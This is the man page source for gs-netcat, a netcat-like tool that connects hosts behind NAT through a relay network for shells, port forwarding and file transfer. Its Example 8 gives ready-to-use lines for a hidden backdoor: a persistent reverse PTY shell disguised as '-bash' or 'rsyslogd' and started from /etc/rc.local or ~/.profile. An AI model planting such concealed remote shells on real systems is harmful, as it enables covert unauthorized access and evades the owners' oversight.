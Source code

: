 \# .TH gs-netcat 1 "08 October 2020" "1.0" "gs-netcat man page"
.Dd October 08, 2020
.Dt GS-NETCAT 1
.Os
.Sh NAME
.Nm gs-netcat
.Nd transfer data, forward traffic and execute commands on a remote host. Securely.
.Sh SYNOPSIS
.Nm gs-netcat
.Bk -words
.Op Fl rlgqwCTSDi
.Op Fl s Ar secret
.Op Fl k Ar keyfile
.Op Fl L Ar logfile
.Op Fl d Ar IP
.Op Fl p Ar port
.Op Fl e Ar cmd
.Ek
.Sh DESCRIPTION
The
.Nm
utility is a re-implementation of netcat. It allows two or more users to establish a secure TCP connection with each other in a scenario where all users are behind NAT/Firewall and would not be able to connect to each other directly. Typically a connection between one workstation and another workstation on a different Local Area Network.
.Pp
It uses the Global Socket Relay Network (GSRN) instead of direct TCP connections. Neither workstation needs to open a port in their firewall or accept incoming TCP connections.
.Pp
The connection is end-2-end encrypted using SRP (RFC 5054) with AES-256 and a 4096 Prime. The GSRN sees only the encrypted traffic. 
.Pp
Common uses include:
.Pp
.Bl -bullet -offset indent -compact
.It
simple TCP proxies
.It
PTY shell
.It
File transfer
.It
a SOCKS ProxyCommand for
.Xr ssh 1
.It
and much, much more.
.El
.Pp
.Sh OPTIONS
.Bl -tag -width Ds
.It Fl s Ar secret
A password chosen by the user. Both users need to use the same password to connect.
.It Fl k Ar file
A file containing the password.
.It Fl g
Generate a secure random password and output it to standard output.
.It Fl l
Server mode. The default mode is client.
.It Fl q
Quiet mode. Do not output any warnings or errors.
.It Fl w
Client to wait for the listening server to become available.
.It Fl r
Receive-only. Do not send any data. Terminate when no more data is available for reading.
.It Fl C
Disable encryption and use clear-text instead. Use with caution.
.It Fl T
Use TOR. The
.Nm
tool will connect via TOR to the GSRN. This requires TOR to be installed and running. The IP and PORT of the TOR server can be set using environment variables.
.It Fl S
Server. Act as a SOCKS4/4a/5 server. Needs -l. The server acts as a SOCKS4/4a/5 proxy. It allows multiple
.Nm
clients to (securely) relay traffic via the server.
.It Fl D
Server. Daemon & Watchdog mode.
.Nm
will run as a background process and restart itself if killed.
.It Fl e Ar cmd
Server. Execute command and send output to the connected client.
.It Fl d Ar ip
IPv4 address for port forwarding.
.It Fl p Ar port
TCP port to listen on or to forward traffic to.
.It Fl i
Interactive login shell. The server spawns a true PTY login shell. The client acts as a true PTY client (with Ctrl-C etc working). The client can terminate the session by typing \'Ctrl-e q\' at any time or by typing \'exit\'. The server supports multiple clients at the same time.
.El

.Pp
.Ar port
can be a numerical value between 1-65535.
.Sh CONSOLE
Pressing \'Ctrl-e c\' (e for EEEElite) opens the command console. The command console displays the following information:
.Pp
.Bl -bullet -offset indent -compact
.It
Latency (in milliseconds) to the remote host
.It
Warning when a user logs into the system or becomes active
.It
Data troughput
.It
File transfer logs
.El
Type \'help\' for a list of available commands.

.Sh FILETRANSFER
File transfer is available from the command console. Files are transfered with the permission and modification timestamp unchanged. Partially transfered files are re-started where the transfer was left off.

The 'put' command is used for uploading:

.Dl put foobar.txt
.Dl put $HOME/foobar.txt
.Dl put /tmp/*.log
.Dl put $(find . -type f -name '*.c')

(The above example shows Shell Variable substitution and word expansion)

It is possible to limit the amount of path information that is sent as implied directories for each path you specify. You can insert a dot and a slash into the source path, like this:

.Dl put /foo/./bar/baz.c

That would create /tmp/bar/baz.c on the remote machine. 

The 'get' command is used for downloading:

.Dl get foobar.txt
.Dl get $(find /var/./ -name '*.log')

Transfering a directory automatically transfers all files and directories within that directory (recursively):

.Dl get /var/log
.Dl get /
The first command transfers all directories and files in /var/log/*. The latter command transfers the entire filesystem.

Multiple get/put commands can be scheduled at the same time.

.Sh EXAMPLES
.Nm Example 1
- Listen for a new connection using the password \'MySecret\':
.Dl $ gs-netcat -s MySecret -l
.Pp
Connect with client using the same password:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 2
- spawn a PTY login shell when a client connects:
.Dl $ gs-netcat -s MySecret -l -i
.Pp
Log in to server\'s interactive shell:
.Dl $ gs-netcat -s MySecret -i
.Pp
.Nm Example 3
- Execute a command when a client connects:
.Dl $ gs-netcat -s MySecret -l -e \'echo hello world; id; exit\'
.Pp
Connect client to the server:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 4
- Pipe data from client to server:
.Dl $ gs-netcat -s MySecret -l -r >warez.tar.gz
.Pp
Client to read \'warez.tar.gz\' and pipe it to the server.
.Dl $ gs-netcat -s MySecret <warez.tar.gz
.Pp
.Nm Example 5
- Server to act as a SOCKS4/4a/5 server:
.Dl $ gs-netcat -s MySecret -l -S
.Pp
Client to listen on TCP port 1080 and forward any new connection to the server\'s SOCKS server:
.Dl $ gs-netcat -s MySecret -p 1080
.Pp
.Nm Example 6
- TCP Port Forward all connections to 192.168.6.7:22. Server:
.Dl $ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
.Pp
Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.
.Dl $ gs-netcat -s MySecret -p 2222
.Dl $ ssh -p 2222 root@127.0.0.1
.Pp
The same using 1 command:
.Dl $ ssh -o ProxyCommand=\'gs-netcat -s MySecret\' root@ignored
.Pp
.Nm Example 7
- Creating an SFTP server using gs-netcat:
.Dl $ gs-netcat -s MySecret -l -e /usr/lib/sftp-server
.Pp
The sftp-server binary speaks the sftp-protocol to stdin/stdout. The sftp binary also speaks sftp-protocol to stdin/stdout. The tool can be used to connect both via GSRN (encrypted) and access the SFTP server running on the server's side from the client via the GSRN (encrypted).:
.Dl $ export GSOCKET_ARGS=\'-s MySecret\'
.Dl $ sftp -D gs-netcat
.Pp
.Nm Example 8
- Encrypted Reverse PTY shell hidden as \'-bash\' in the process list - also known as \'backdoor\':
.Dl $ (GSOCKET_ARGS="-s MySecret -liqD" exec -a -bash gs-netcat)
.Pp
The following line in /etc/rc.local starts the backdoor after each system reboot:
.Dl GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c\ "cd $HOME; exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The follwing line in /etc/rc.local starts a port-forward to 127.0.0.1:22:
.Dl GSOCKET_ARGS="-k MySecret2 -lqD -d 127.1 -p22"  /bin/bash -c\ "exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in the user\'s ~/.profile starts the backdoor (once) when the user logs in. All in one line:
.Dl killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret3 -liqD" SHELL=/bin/bash exec -a -bash /usr/local/bin/gs-netcat)
.Pp
The \'(...)\' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as -bash) from the process list.
.Pp
Client to connect to the backdoor:
.Dl $ gs-netcat -s MySecret -i


.Sh ENVIRONMENT
The following environment variables can be set to control the behavior of
.Nm
.Pp
.Nm GSOCKET_SOCKS_IP
.Dl Specify the IP address of the TOR server (or any other SOCKS server). Default is 127.0.0.1.
.Pp
.Nm GSOCKET_SOCKS_PORT
.Dl The port number of the TOR server (or any other SOCKS server). Default is 9050.
.Pp
.Nm GSOCKET_ARGS
.Dl A string containing additional command line parameters. First the normal command line parameters are processed and then the command line parameters from GSOCKET_ARGS.

.Sh SECURITY
Passing the password as command line parameter is not secure. Consider using the -k option or GSOCKET_ARGS or enter the password when prompted:
.Pp
.Dl $ gs-netcat -k <file>
.Pp
.Dl $ export GSOCKET_ARGS="-s MySecret"
.Dl $ gs-netcat
.Pp
.Nm 1.
The security is end-2-end. This means from User-2-User (and not just to the GSRN). The GSRN relays only (encrypted) data to and from the users.
.Pp
.Nm 2.
The session is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password). It uses OpenSSL\'s SRP with AES-256 and a 4096 Prime.
.Pp
.Nm 3.
The password can be \'weak\' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
.Pp
.Nm 4.
Do not use stupid passwords like \'password123\'. Malice might pick the same (stupid) password by chance and connect. If in doubt use gs-netcat -g to generate a strong one. Alice\'s and Bob\'s password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
.Pp
.Nm 5.
If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
.Pp
.Nm 6.
Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a <token> if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
.Pp
.Nm 7.
SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.

.Sh NOTES
The latest version is available from https://github.com/hackerschoice/gsocket/.

.Sh SEE ALSO
.Xr gs-sftp(1) ,
.Xr gs-mount(1) ,
.Xr blitz(1) ,
.Xr nc(1) ,
.Xr socat(1)

.Sh BUGS
Efforts have been made to have
.Nm
"do the right thing" in all its various modes. If you believe that it is doing the wrong thing under whatever circumstances, please notify me (skyper@thc.org) and tell me how you think it should behave.
